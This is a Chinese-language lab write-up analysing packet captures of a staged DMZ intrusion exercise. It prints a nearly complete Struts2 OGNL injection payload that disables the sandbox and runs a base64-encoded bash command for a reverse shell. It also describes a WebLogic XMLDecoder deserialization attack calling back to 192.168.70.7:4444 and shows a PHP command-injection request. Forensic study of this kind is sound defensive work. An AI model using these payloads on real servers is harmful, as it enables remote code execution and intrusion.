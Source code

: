 # 漏洞攻防场景DMZ之漏洞利用检测

## 第一层靶机漏洞利用检测
* 将在受害者主机中抓的网络包进行wirshark分析
* 查找对入口靶标的http请求
![](./第一个靶标被攻击过程.png)
**可以发现攻击者发送了http请求，让靶机漏斗利用成功**

* 追踪tcp流
![](./images/第一层靶标回显的tcp流.png)

* 分析这个tcp流：
1. POST报文概述
- 请求方法: ```POST / HTTP/1.1```（针对根路径）
- Host: ```192.168.70.4:8224```（目标服务器IP和端口）
- User-Agent: 伪装成Chrome/Edge浏览器（常见于攻击中，以绕过基础WAF检测）
- Content-Type: ```application/x-www-form-unlencoded```（应为application/x-www-form-urlencoded的拼写错误，但Struts2通常仍会处理）
- Content-Length: 1587（表示Body长度）
- Body参数: id=...（包含恶意URL编码的Ognl表达式）

2. Body的核心是id参数的值，它是一个URL编码的Ognl（Object-Graph Navigation Language）表达式。Ognl是Struts2框架用于处理视图层数据的表达式语言，但不当处理可导致注入漏洞。
```ognl
# URL解码后的Ognl表达式

%{
  (#instancemanager=#application["org.apache.tomeat.InstanceManager"]).
  (#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
  (#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
  (#bean.setBean(#stack)).
  (#context=#bean.get("context")).
  (#bean.setBean(#context)).
  (#macc=#bean.get("memberAccess")).
  (#bean.setBean(#macc)).
  (#emptyset=#instancemanager.newInstance("java.util.HashSet")).
  (#bean.put("excludedClasses",#emptyset)).
  (#bean.put("excludedPackageNames",#emptyset)).
  (#execute=#instancemanager.newInstance("com.alibaba.fastjson.util.JavaBeanInfo")).
  (#execute.exec('bash -c {echo,<base64-command>}|{base64,-d}|bash'))
}
```
- 关键操作:

  - 获取关键对象：通过```#application和#attr```获取Struts2的```InstanceManager和ValueStack```（核心上下文对象）。

  - 操纵```BeanMap```：创建```BeanMap```对象操作上下文，获取```memberAccess```（控制方法访问权限）。

  - 绕过安全限制：设置```excludedClasses```和```excludedPackageNames```为空集合，禁用Struts2的安全沙箱，允许调用任意类和方法。

  - 执行命令：创建```com.alibaba.fastjson.util.JavaBeanInfo```实例，调用其exec方法执行系统命令。

  - 命令结构：**```bash -c {echo,<base64>}|{base64,-d}|bash```**，用于解码并执行Base64编码的命令。

- base64编码的命令结构如下：
```echo  "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('...')[0]).decode('utf-8'))" | python3 || python2```

从而执行了返回bash的操作，从而出现了反弹shell

## 第一层内网靶标漏洞利用检测
![](./images/第一层内网的漏洞检测.png)
* tcp流分析
![](./images/第一层内网漏洞利用的tcp检测.png)
- 数据流关键特征分析
1. 请求特征
* 请求路径：```POST /_async/AsyncResponseService HTTP/1.1```
* 直接命中漏洞暴露的异步服务接口。

* **Content-Type**：```text/xml```
* 符合SOAP请求格式，用于触发XML解析。

* **SOAPAction**：空值
* 攻击者刻意留空以绕过某些过滤规则。

2. 漏洞利用原理
- 漏洞触发点：WebLogic在解析```WorkContext```标签内的XML数据时，使用```XMLDecoder```进行反序列化，未对用户输入进行有效过滤。

* 攻击链构造：daoao
攻击者构造包含```ProcessBuilder```类的恶意XML，通过SOAP请求提交至漏洞接口。
WebLogic解析```WorkContext```时，触发```XMLDecoder```反序列化操作，加载并执行攻击者指定的命令。
命令执行后，建立反向Shell连接至攻击者控制的服务器（```192.168.70.7:4444```）。

- 绕过防护：
使用```void、array```等标签绕过WebLogic黑名单过滤。
通过Bash命令编码混淆，规避基础的关键字检测。

**攻击成功证据**
* 载荷有效性：
成功调用```ProcessBuilder```执行系统命令。
反向Shell命令符合典型攻击模式（```/dev/tcp为```Bash特有功能）。

* 响应特征：
HTTP 202状态码与漏洞利用场景吻合（无详细错误，静默执行）。

* 环境关联：
攻击目标IP（```192.168.70.7```）与漏洞主机（```192.170.84.3```）处于同一内网段，符合横向渗透逻辑。

## 第二层内网靶标漏洞利用检测
**在攻击完成后，我始终找不到第一层内网到第二层内网的http报文，所以我直接选择了分析自己起的镜像**
![](./images/自己起容器nginx的镜像.png)
* 在受害者主机中进行抓包
```sudo tcpdump -i eth1  -s 0 -w dmz.pcap```
![](./images/在受害者主机中抓包.png)
* 在攻击者主机中进行wget命令行注入
```wget "http://192.168.70.4:14909/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result```
![](./images/在攻击者主机中攻击.png)
* 在受害者主机中进行wireshark抓包分析，过滤条件为```ip.addr==192.168.70.7```
![](./images/抓包分析第二层内网攻击过程.png)
**可以看到攻击过程**
* 对这个攻击报文进行http流分析
![](./images/第二层内网攻击的http流.png)
### 漏洞利用分析
1. 请求中的 ```cmd=ls%20/tmp``` 参数被直接传递给PHP的命令执行函数
2. 服务器后台直接执行```/bin/sh -c "ls /tmp"```  用户提供的命令，直接拿到了flag